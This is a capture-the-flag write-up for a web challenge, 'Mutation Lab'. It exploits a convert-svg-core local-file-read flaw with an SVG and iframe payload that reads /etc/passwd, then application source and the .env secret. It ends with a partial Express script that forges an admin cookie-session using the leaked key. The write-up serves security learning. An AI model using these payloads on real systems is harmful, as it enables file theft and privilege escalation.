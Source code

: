### Mutation Lab (300 points)

The value of this challenge is 300 points & +300 players have solved this challenge.

![](mutation-1.png)

We're given a website with a feature for registration and login.

![](mutation-2.png)

In the _dashboard_ menu, We're given a feature that converts SVG into PNG.

After playing with the request, we could trigger the application to show an error message. With this information, we could find out what library is used by this application.

![](mutation-3.png)

The newest CVE for this library is a local file read. So, we just copy-pasting again with the payload.

[https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785)

```html
<svg-dummy></svg-dummy>
<iframe src="file:///etc/passwd" width="100%" height="1000px"></iframe>
<svg viewBox="0 0 240 80" height="1000" width="1000" xmlns="http://www.w3.org/2000/svg">
  <text x="0" y="0" class="Rrrrr" id="demo">data</text>
</svg>

```

![](mutation-4.png)

![](mutation-5.png)

Since we couldn't find the flag file, we attempted to read the source code on this application.

According to the another NodeJS challenge, the usual source code is placed on `/app`

So, we just need to check the /app/index.js and find out it's using a `.env`.

![](mutation-6.png)

![](mutation-7.png)

After that, I am reading the `/app/routes/index.js`, We need to forge the cookie with `SECRET_KEY` on `.env` before so we could change the user into `admin`

![](mutation-8.png)

```javascript
const express = require('express')
const cookieParser = require('cookie-parser')
const session = require('cookie-session')

app = express()

app.use(cookieParser())
app.use(session({
    name:'session',
    keys:['5921719c3037662e94250307ec5ed1db']
}))

app.get('/', async (req, res)=>{
    try {
        req.session.username = 'admin'
        return res.send('nice');
```